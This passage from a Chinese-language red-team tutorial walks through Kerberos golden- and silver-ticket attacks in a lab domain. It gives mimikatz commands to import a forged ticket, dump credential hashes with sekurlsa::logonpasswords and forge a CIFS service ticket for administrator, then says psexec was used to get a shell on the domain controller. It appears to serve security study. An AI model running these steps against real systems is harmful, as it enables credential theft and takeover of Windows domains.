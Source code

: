 可以看到没有任何票证。

 **导入gold.kribi**

    
    
     kerberos::ptt C:\Users\jack\Desktop\gold.kirbi

![]()

成功导入administrator票据。

![](https://gitee.com/fuli009/images/raw/master/public/20210816192536.png)

可以通过事件管理器查看到是以administrator来登录的

![](https://gitee.com/fuli009/images/raw/master/public/20210816192537.png)

# 0x02 银票

如果我们拥有服务的hash，就可以给自己签发任意用户的TGS票据。金票是伪造TGT可用于访问任何Kerberos服务，而银票是伪造TGS，仅限于访问针对特定服务器的任何服务。

这里使用CIFS服务，该服务是windows机器之间的文件共享。

## 2.1 获取sid

    
    
    whoami /user

![]()

## 2.2 导出服务账号的NTLM Hash

    
    
    privilege::Debugsekurlsa::logonpasswords

![](https://gitee.com/fuli009/images/raw/master/public/20210816192538.png)

## 2.3 创建银票

![](https://gitee.com/fuli009/images/raw/master/public/20210816192539.png)

    
    
    kerberos::golden /domain:redteam.local/sid:S-1-5-21-151877218-3666268517-4145415712/target:DC.redteam.local/service:cifs /rc4:0703759771e4bed877ecd472c95693a5/user:administrator /ptt

![](https://gitee.com/fuli009/images/raw/master/public/20210816192540.png)

psexec获取DC机器cmd

![](https://gitee.com/fuli009/images/raw/master/public/20210816192541.png)
